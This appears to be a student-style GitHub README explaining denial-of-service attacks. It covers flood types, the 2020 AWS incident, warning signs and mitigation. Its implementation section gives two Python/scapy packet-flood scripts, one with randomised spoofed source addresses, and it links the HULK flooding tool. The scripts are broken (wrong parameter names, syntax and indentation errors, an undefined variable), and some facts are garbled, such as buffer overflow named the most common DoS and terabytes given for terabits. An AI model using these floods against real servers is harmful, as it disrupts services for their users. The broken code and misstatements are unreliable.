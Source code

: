 # Denial-of-Service (DoS) attack

*Zhen Meng, Zhixin Han*

## Background of DoS

A Denial-of-Service (DoS) attack is a malicious, targeted attack that floods a network with false requests in order to disrupt business operations.

![alt text](what-is-ddos-botmaster.png)

## DoS Attack in Real Life

DoS attacks can cost an organization both time and money, because their resources and services are inaccessible during that time. 
Not only will you be put out of action for quite a while, but a successful DoS attack can also cause the systems to fail. 

Unlike cyberattacks that steals sensitive information or money, initial DDoS attacks are launched to make websites inaccessible to their users. DoS and DDoS attacks are also used to draw attention away so that hackers can launch secondary attacks elsewhere. [1]

A famous example of DDOS attack happened to AWS, it was hit by a large DDoS attack in February 2020. The attack lasted for three days and peaked at 2.3 terabytes per second. [Click here for more information](https://www.a10networks.com/blog/aws-hit-by-largest-reported-ddos-attack-of-2-3-tbps/)

## Types of DoS attack

Generally, DoS attack fall in two categories, some of them crash web-based services and others flood the service instead. Within those two categories, there are many different subgroups, they varies based on the methods of attackers, the equipment being targeted and so on. [2]

### Buffer Overflow attacks

This is the most common form of DoS attack. A buffer overflow type of attack can cause a machine to consume all available hard disk space, memory, or CPU time. The memory storage holds temporary data being transferred will alse be consumed.

![alt text](buffer-overflow.png)

### Flood attacks

By saturating a targeted server with an overwhelming amount of packets, a malicious actor is able to oversaturate server capacity, resulting in denial-of-service. 

- ICMP (Internet Control Message Protocol) Floods 

Also called smurf or ping attacks. It focus on exploiting misconfigured network devices. In these attacks, attackers send spoofed packets or the false IP addresses that pings every computer on the targeted network. The network will face a surge in traffic, the system becomes flooded with responses from the malicious packet.

- SYN Floods (half-open attack) 

This type of folld attack exploits the Transmission Control Protocol (TCP) handshake, which is used for the TCP network to create a connection with a local host/server. In a SYN flood, a connection request to a server, but the handshake will be left imcomplete. These requests keep the host in an occupied status. Legitimate users will be prevented from connecting to the network when all the ports are saturated. Below is an illustration of TCP handshake.[1]

![alt text](TCP-connection-1.png)


## DoS attack vs. DDoS attack

The primary distinction between them is where the attack originated. A DDoS attack is a coordinated attack launched from various locations by multiple systems at the same time, whereas a DoS attack is a single attack.DDoS attacks are the most powerful and difficult to detect internet attacks. The reason  is that they are introduced from multiple locations in order to hide their identities and prevent the victim from identifying the main source of the attack. As a result, distinguishing between genuine and fake network traffic is impossible.

![alt text](output-onlinepngtools.png)

## Identify DoS Attack


**Common indicators:**

- Slow network performance for common tasks 

All kinds of slow network performances for normal tasks like logging in to an account, downloading files,etc.

- Inability to access online resources

The inability to access online recources like health record and educational resources.

- An interruption or loss in connectivity

The interruption or loss in connectivity of multiple devices on the same network. [2]

## Methods to Reduce the Risk of a DoS attack

**Avoid beingpart of the attack:**

- Enroll in a DoS protection service

- Create a disaster recovery plan

**Strengthen your devices:**

- Install and maintain antivirus software

- Install a firewall

- Evaluate security settings and follow good security practices [3]

## DoS attack Implementation 

### Single IP single port

A large number of packets are sent to web server by using _single IP_ and from _single port number_. 

Using a for loop a large number of packets are sending to web server using single IP from single port number. Normally,it is a low level attack to test the web server’s behavior. [4]

```
from scapy.all import *
source_IP = input("Enter IP address of Source: ")
target_IP = input("Enter IP address of Target: ")
source_port = int(input("Enter Source Port Number:"))
i = 1

while True:
   IP1 = IP(source_IP = source_IP, destination = target_IP)
   TCP1 = TCP(srcport = source_port, dstport = 80)
   pkt = IP1 / TCP1
   send(pkt, inter = .001)
   
   print ("packet sent ", i)
      i = i + 1
```

### Multiple IP multiple port 

A large number of packets are sent to web server by using _multiple IPs_ and from _multiple ports_. 

Using while loop to creat multiple IP addresses and ports to send large numbers of packets simutaneously to attack victims’ Ip address.[4]


```
Import random
from scapy.all import *
target_IP = input("Enter IP address of Target: ")
i = 1

while True:
   a = str(random.randint(1,254))
   b = str(random.randint(1,254))
   c = str(random.randint(1,254))
   d = str(random.randint(1,254))
   dot = “.”
   Source_ip = a + dot + b + dot + c + dot + d
   
   for source_port in range(1, 65535)
      IP1 = IP(source_IP = source_IP, destination = target_IP)
      TCP1 = TCP(srcport = source_port, dstport = 80)
      pkt = IP1 / TCP1
      send(pkt,inter = .001)
      
      print ("packet sent ", i)
         i = i + 1
```

## DoS Tools and Performance


### HULK

This tool successfully avoids caching by attacking the server directly with unique packets. HULK makes each request unique, unlike many other tool that transmit packets in a predictable pattern, making the attack easier to detect and halt. This program also allows you to securely carry out the  attack while maintaining control to stop it at any point.Now we are attak an ip address, using wireshark to monitor the traffic, there are continuity of packets sending to the source IP. [5]

[Get Hulk through the Repo](https://github.com/grafov/hulk)

[Video DoS/DDoS attack tutorial](https://www.youtube.com/watch?v=fGWkhmCp_js&t=117s)

![This is an image](hulk-tool.png)

### Wireshark

![This is an image](wire-shark.jpg)


## References

[1]: WHAT ARE DENIAL-OF-SERVICE (DOS) ATTACKS? [Link](https://spanning.com/blog/denial-of-service-attacks-web-based-application-security-part-7/).

[2]: Denial-of-Service (DoS) Attacks — Web-based Application Security, Part 7 [Link](https://www.crowdstrike.com/cybersecurity-101/denial-of-service-dos-attacks/).

[3]: Understanding Denial-of-Service Attacks [Link](https://www.cisa.gov/uscert/ncas/tips/ST04-015).

[4]: DoS & DDoS attack [Link](https://www.tutorialspoint.com/python_penetration_testing/python_penetration_testing_dos_and_ddos_attack.htm).

[5]: Hulk DDoS Tool : Complete Installation & Usage with Examples [Link](https://allabouttesting.org/hulk-ddos-tool-complete-installation-usage-with-examples/).
